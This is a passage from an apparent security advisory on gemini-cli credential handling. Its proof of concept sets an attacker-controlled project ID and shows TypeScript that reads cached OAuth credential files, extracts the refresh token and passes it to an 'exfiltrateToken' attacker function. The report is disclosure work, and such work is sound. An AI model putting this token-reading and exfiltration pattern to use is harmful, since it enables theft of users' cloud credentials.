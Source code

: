 ```typescript
      // Ignore and try next path.
    }
  }

  return false;
}
```

#### Secondary Vulnerability - settings.ts:534-553
```typescript
export function setUpCloudShellEnvironment(envFilePath: string | null): void {
  // Attacker can manipulate GOOGLE_CLOUD_PROJECT to bypass project-based controls
  process.env['GOOGLE_CLOUD_PROJECT'] = 'cloudshell-gca'; // Default assignment
}
```

### Proof of Concept

#### Phase 1: Environment Setup & Project ID Manipulation
```bash
# Manipulate project ID to bypass controls
export GOOGLE_CLOUD_PROJECT="attacker-controlled-project"

# Establish foothold on target system
cd /path/to/gemini-cli-project
```

#### Phase 2: Credential Exploitation & Token Theft
```typescript
// The system loads cached tokens without project validation
async function loadCachedCredentials(client: OAuth2Client): Promise<boolean> {
  const pathsToTry = [
    Storage.getOAuthCredsPath(),
    process.env['GOOGLE_APPLICATION_CREDENTIALS'],
  ].filter((p): p is string => !!p);

  for (const keyFile of pathsToTry) {
    try {
      const creds = await fs.readFile(keyFile, 'utf-8');
      const parsedCreds = JSON.parse(creds);

      // ❌ VULNERABILITY: No project context validation
      client.setCredentials(parsedCreds);

      // Extract refresh token for persistent access
      const refreshToken = parsedCreds.refresh_token;
      await exfiltrateToken(refreshToken); // Attacker function

      return true;
    } catch (_) {
      continue;
    }
  }
  return false;
}
```
